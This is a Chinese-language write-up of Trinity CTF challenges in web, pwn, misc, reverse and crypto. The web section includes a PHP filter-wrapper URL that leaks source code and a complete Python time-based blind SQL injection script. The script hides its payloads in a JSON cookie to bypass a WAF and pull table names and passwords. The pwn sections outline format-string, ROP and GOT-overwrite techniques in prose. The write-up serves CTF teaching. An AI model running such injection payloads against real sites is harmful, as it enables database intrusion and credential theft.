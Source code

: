 ## Writeup For Trinity CTF 2nd

### Web

#### flag宝典

这题一共有10000个页面，但是后台通过检查referer来判断是不是一页一页地读。通过burpsuite重放就能发现是改referer了（因为同样的包发到相邻的页面有响应，发到不相邻的页面有报错，删去referer直接报错并跳回首页）。接下来就是猜有几页的问题……好吧 我应该提示一下大家一共有几页的，但看不少人猜到了我就不放提示了

```
Note: 如果你想自己搭建这个题目，需要将服务器的默认策略修改。参见：

sudo sed -i 's/\/var\/www\/html/\/var\/www\/html\/index.php/'  /etc/apache2/sites_available/000-default.conf

echo -e "<Directory /var/www/html/flag_book>\n\tRequire host 127.0.0.1\n</Directory>" >> /etc/apache2/apache2.conf
```

#### flag宝典2

这题是上一题的文件换层皮。写过爬虫的都知道，互联网中有一个“君子协定”，即`robots.txt`，这里写明了不允许爬虫爬的页面，有时候这里包含了敏感信息等。用Disallow来标识这些页面。或者你也可以用burpsuite的spider功能发现robots.txt页面。

然后从robots.txt中得到提示，下载index.phps文件。得到提示后发现不能直接读取flag内容，否则会给你`no flag here`的提示。但是可以用PHP伪协议绕过，将flag.php内容进行base64编码后即可。

```
http://210.28.133.37:10081/php://filter/read=convert.base64-encode/resource=flag.php
```

这题同样需要将`000-deault.conf`的默认配置改为`index.php`，参见上题

#### 六脉神剑

这题来自HCTF 2018 kzone

突破口是使用御剑或其他的目录扫描工具把网站的源码备份`www.zip`下载下来。在实际部署中，是有很多开发者忘记将这个文件删除的。

得到源码后，进行审计。可以发现所有的我们能决定的输入都经过了`safe.php`，只有一处例外，也就是`member.php`，在此处的cookie是经过防火墙后再json decode后才查数据库的，我们可以在此处做文章，用json decode的特性绕过防火墙，然后进行时间盲注。

以下是测试的时候用的攻击代码，emmm 有许多注释的地方，因为懒得为每一个攻击阶段写函数了。

```
import requests

import time
from requests.cookies import RequestsCookieJar

sleep_time = 1
error_time = 0.5


def getpayload(index,position,guess):
	cookie = {
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/passw\u006frd/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}'''
			#, "islogin":"1" 
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/username/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}'''
			"islogin":"1" ,
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/name/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}''', "islogin":"1" ,
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(table_name)/**/from/**/inf\u006frmation_schema.tables/**/where/**/table_schema\u003d'TrinityFTC'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(table_name)/**/from/**/inf\u006frmation_schema.tables/**/where/**/table_schema\u003d'hctf_kouzone'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":""}''',
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(column_name)/**/from/**/inf\u006frmation_schema.columns/**/where/**/table_name\u003d'I_love_CTF'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(passw\u006frd)/**/from/**/I_love_CTF/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			#"islogin":"1" ,
			#"PHPSESSID":"jve3hsp7vtaaj8amil6p34nvo7"}
			}
	#print(cookie)
	#print("pos:%d,gues:%d" %(position,guess))
	return cookie

allflag= []
flag= ''
def Go():
	url = r"http://210.28.133.37:10082/include/common.php"
	global flag ,allflag
	for index in range(1):
		for pos in range(1,256):
			got_something = False
			for char in range(0x20,0x7f):
				payload = getpayload(index ,pos,char) 
				beforetime = time.time()
				r = requests.get(url , cookies=payload)
				endtime = time.time()
				use_time = endtime - beforetime
				#print(r.text)
				if abs(use_time) > sleep_time  :
					flag += chr(char)
					print("flag:%s" % flag)
					got_something = True
					break 
				else :
					pass
			if not got_something:
				break
		allflag.append(flag)
		flag = ''


if __name__ == "__main__":
	try:
		Go()
	except Exception:
		print(allflag)
	print(allflag) 

```

Note: 上述是HCTF的非预期解。预期解是依赖于MySQL新版本的保存信息的表(innodb_table_stats,innodb_index_stats)不含关键字`or`的特性。详见[官方writeup](https://bysec.io/hctf/writeup.html)

### Pwn

#### Babypwn
通过`ida`分析可以发现程序存在栈溢出和格式化字符串漏洞，最简单的方法是直接用格式化字符串`leak`出`secret`然后就`get shell`.又或者用格式化字符串把`canary`和程序的基地址`leak`出来后做`ROP`

#### 初入江湖
整数溢出，只要自己的hp不刚好为0就不会死亡，战胜对面拿到shell

#### 葵花宝典
对数组下标检查时忽略了负数范围，通过全局数组的下标下溢改写got表使close函数无效，拿到flag

### Misc

#### Babymisc
这属于这场比赛的签到题，根据提示我们知道这个是用`Asciidots`写的脚本，我们去找到这个语言，看看语法，就可以发现其实脚本里面的每一个字母的作用都是打印出一个字符的`ascii`值，连起来就是`flag`.直接运行的话打出来的字符是乱序的，这个和解释器解析脚本的方法有关。

### Reverse

#### Babyre
给了一个文本文件，里面是汇编代码，直接编译成二进制文件然后用`ida`分析即可

#### Babyre2
和作业题是一样的思路。`main`函数被简单的加密了。详情看题目的源代码即可。

### Crypto
#### yafu
简单的题目。安装yafu即可，百度也能搜索到yafu的使用方法。直接暴力破解这个大数，然后使用gmpy2将密文解密即可
